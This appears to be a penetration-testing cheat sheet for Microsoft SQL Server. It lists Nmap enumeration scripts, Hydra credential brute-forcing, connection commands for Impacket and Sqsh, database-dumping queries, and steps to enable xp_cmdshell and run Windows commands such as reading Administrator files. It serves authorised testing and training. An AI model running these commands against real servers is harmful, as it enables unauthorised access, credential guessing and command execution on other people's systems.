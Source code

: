 ```yaml
---
title: Microsoft SQL (MSSQL) Pentesting
desc: Default port is 1433.
tags: [1433, Database, Impacket, MSSQL, Nmap, Sqsh, Windows]
alts: []
render_with_liquid: false
---
```


## Enumeration

1. **Use Nmap**

    ```sh
    nmap --script ms-sql-info -p 1433 <target-ip>
    nmap --script ms-sql-config -p 1433 <target-ip>
    nmap --script ms-sql-empty-password,ms-sql-xp-cmdshell -p 1433 <target-ip>
    nmap --script ms-sql-* -p 1433 <target-ip>
    ```

2. **Brute Force Credentials**

    ```sh
    hydra -L usernames.txt –p password <target-ip> mssql
    hydra -l username –P passwords.txt <target-ip> mssql
    ```

<br />

## Connect

1. **Use Impacket**

    ```sh
    impacket-mssqlclient -port 1433 DOMAIN/username:password@<target-ip>
    impacket-mssqlclient -port 1433 DOMAIN/username:password@<target-ip> -windows-auth
    ```

2. **Use Sqsh**

    ```sh
    sqsh -S <target-ip> -U username -P password
    sqsh -S <target-ip> -U username -P password -D database
    ```

<br />

## Basic Commands

1. **Commonly Used**

    ```sh
    # Get databases
    > SELECT * FROM master.dbo.sysdatabases

    # Get table content
    > SELECT * FROM <database_name>.dbo.<table_name>
    ```

<br />

## Spawn a Windows Command Shell and Executing using Impacket

If you connected MSSQL using **impacket**, you can exeucte the Windows Shell Commands by **"enable_xp_cmdshell"**.

1. **Enable/Disable a Windows Shell**


    ```powershell
    > enable_xp_cmdshell
    > disable_xp_cmdshell
    ```

2. **Basic Commands**

    You can execute commands the same as Windows Command Prompt.

    ```powershell
    # Get current user
    > xp_cmdshell whoami

    # Show files and directories
    > xp_cmdshell dir
    > xp_cmdshell dir \Users
    # Show hidden files
    > xp_cmdshell dir /a

    # Get current directory
    > xp_cmdshell cd

    # Get contents of file
    > xp_cmdshell more \Users\Administrator\example.txt
    > xp_cmdshell type \Users\Administrator\example.txt
    ```